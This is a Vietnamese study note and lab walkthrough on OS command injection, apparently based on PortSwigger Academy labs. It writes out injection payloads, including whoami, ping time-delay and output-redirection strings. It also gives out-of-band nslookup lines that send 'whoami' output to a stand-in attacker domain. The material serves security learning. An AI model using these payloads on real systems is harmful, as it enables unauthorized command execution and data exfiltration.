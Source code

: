 # OS command injection

## Khái niệm

> ![img](../asset/os-command-injection-0.png)

## OS command injection là gì?

> OS command injection (hay còn được gọi là shell injection) là 1 vul web cho phép attacker thực thi command trên OS (HĐH) tùy ý trên server và xâm phạm, lấy cắp data.

> Thông thường attacker có thể lợi dụng vul để xâm phạm các thành phần khác, khai thác các mối quan hệ

## Executing arbitrary commands

> Xem xét ứng dụng shopping sau để xem mặt hàng có còn trog shop hay không:
>
> ```
> https://insecure-website.com/stockStatus?productID=381&storeID=29
> ```

> Để cung cấp thông tin mặt hàng, app phải query các system kế thừa nhau. Các chức năng có thể gọi bằng shell:
>
> ```
> stockreport.pl 381 29
> ```

> Vì app không triển khai các biện pháp bảo vệ nên có thể đưa shell vào OS:
>
> ```
> & echo aiwefwlguh &
> ```

> Nó sẽ execute:
>
> ```
> stockreport.pl & echo aiwefwlguh & 29
> ```

> `echo` chỉ là lệnh in cơ bản, đây là cách hữu ích để thử exploit. `&` để phân tách chuỗi trong shell. Kết quả:
>
> ```
> Error - productID was not provided
> aiwefwlguh
> 29: command not found
> ```

> 3 Dòng đầu chứng minh rằng:
>
> `stockreport.pl` không được thực thi là do thiếu đối số
>
> `echo` vẫn được execute
>
> `29` nó là không phải command

### Lab: OS command injection, simple case

> Des: Lab này chứa vul OS command injection trong check sản phẩm. Ứng dụng thực thi một lệnh shell với id của sản phẩm. Để solve hãy thực hiện lệnh `whoami` tại người dùng hiện tại

> Bài này chỉ cần vào check stock rổi thay đổi param thêm `|whoami` là oke:
> ![img](../asset/os-command-injection-1-OS-command-injection-simple-case-0.png)

## Useful commands

> Khi đã exploit được vul thì dưới đây là một số lệnh hữu ích trên nền tảng linux và window:
>
> Purpose of command | Linux | Windows
>
> Name of current user | whoami | whoami
>
> Operating system | uname -a | ver
>
> Network configuration| ifconfig | ipconfig /all
>
> Network connections | netstat -an | netstat -an
>
> Running processes | ps -ef | tasklist

## Blind OS command injection vulnerabilities (Lỗ hổng chèn lệnh hệ điều hành mù)

> Ứng dụng không trả về kết quả trong response, nhưng vẫn có thể exploit bằng chèn mù nhưng cần các kĩ thuật khác nhau

> Xem xét 1 web cho user gửi feedback về web. User gửi phản hồi và email của họ. Sau đó phía server tạo mail và gửi về admin web:
>
> ```
> mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
> ```

## Detecting blind OS command injection using time delays (Phát hiện đưa lệnh mù vào hệ điều hành bằng cách sử dụng độ trễ thời gian)

> Có thể inject lệnh đưa vào sẽ kích hoạt time delays. Lệnh `ping` là 1 cách hiệu quả để thực hiện việc này vì nó cho phép chỉ định số lượng ICMP cần gửi do đó thời gian cần thiết để chạy lệnh:
>
> ```
> & ping -c 10 127.0.0.1 &
> ```

> Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

### Lab: Blind OS command injection with time delays

> Des: Chứa vul blind OS command inject tại submit feedback. Chứa thực thi shell, output không được response. Để solve hãy exploit blind os command injection gây là delays 10s

> Dùng burp và chặn sửa request tại param email: `email:x||ping+-c+10+127.0.0.1||` > ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-0.png)

> Đợi 10s sau burp sẽ response và qua web sẽ solve được:
> ![img](../asset/os-command-injection-2-Blind-OS-command-injection-with-time-delays-1.png)

## Exploiting blind OS command injection by redirecting output

> Có thể redirect output từ command được đưa từ trong folder root.
>
> Ví dụ muốn lấy file từ folder : `/var/www/static`:
>
> ```
> & whoami > /var/www/static/whoami.txt &
> ```

> Kí tự `>`gửi result từ command `whoami` đến tệp được chỉ định.

### Lab: Blind OS command injection with output redirection

> Des: Lab này chứa vul OS command injection trong function feedback

> App sẽ thực thi các shell mà user nhập vào.Output không được trả về trong response. Tuy vậy có thể redirect để nắm bắt command :
>
> ```
> /var/www/images/
> ```

> Để solve thì thực hiện command `whoami`

> Ban đầu nhập vào để submit feedback:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-0.png)

> Chặn và sửa field email, ta sẽ viết command `whoami` vào file exploit.txt và lưu trong path `/var/www/images`:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-1.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-2.png)

> Response:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-3.png)

> Về trang chủ và dùng burp để chặn bắt nó:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-4.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-5.png)

> Thấy path của `/image?filename=x` ta send sang repeater và đổi thành file exploit.txt vừa sửa:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-6.png)

> Chuyển sang off và nhận kết quả:
> ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-7.png) ![img](../asset/os-command-injection-3-Blind-OS-command-injection-with-output-redirection-8.png)

## Exploiting blind OS command injection using out-of-band (OAST) techniques

> Có thể sử dụng một lệnh được đưa vào sẽ kích hoạt tương tác `out-of-band` với system mà bạn kiểm soát, sử dụng các kỹ thuật `OAST`:
>
> ```
> & nslookup kgji2ohoyw.web-attacker.com &
> ```

> payload sử dụng command `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Attacker có thể theo dõi việc tra cứu đang diễn ra, do đó phát hiện rằng lệnh đã được đưa vào thành công

### Lab: Blind OS command injection with out-of-band interaction

> Des: Lab này dính vil OS command injection tại chức năng feedback.
>
> Ứng dụng thực thi shell do user nhập vào. Command thực thi không đồng bộ và k ảnh hưởng tới response của app. Không thể redirect ra vị trí mà mong muốn. Tuy nhiên có thể kích hoạt `out-of-band` để tương tác với miền bên ngoài
>
> Để solve thì exploit và đưa ra DNS cho `Burp Collaborator`

> Bài này chỉ cần chặn lúc submit feedback và sửa field email:
>
> ```
> email=x||nslookup+link||
> ```
>
> ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-0.png) ![img](../asset/os-command-injection-4-Blind-OS-command-injection-with-out-of-band-interaction-1.png)

---

> `out-of-band` cũng cung cấp một cách dễ dàng để lọc đầu ra từ các command đưa vào:
>
> ```
> & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
> ```

> Điều này sẽ thực hiện tra cứu DNS với miền của attacker chứa kết quả của lệnh `whoami`:
>
> ```
> wwwuser.kgji2ohoyw.web-attacker.com
> ```

### Lab: Blind OS command injection with out-of-band data exfiltration

> Des: Lab này chứa vul tại feedback. cho phép user thực hiện shell, nhưng không bất đồng bộ và làm ảnh hưởng tới response. Không thể redirect. Tuy nhiên có thể kích hoạt tương tác ngoài băng tần với domain ngoài

> Để solve hãy thực hiện command `whoami` và trích xuất DNS với Burp Collaborator. Nhập tên của user hiện tại

> Bài này chặn submit feedback và sửa field email:
>
> ```
> email=||nslookup+`whoami`.site||
> ```
>
> ![](../asset/os-command-injection-5-Blind-OS-command-injection-with-out-of-band-data-exfiltration-0.png) ![img](../asset/os-command-injection-5-Blind-OS-command-injection-with-out-of-band-data-exfiltration-1.png)
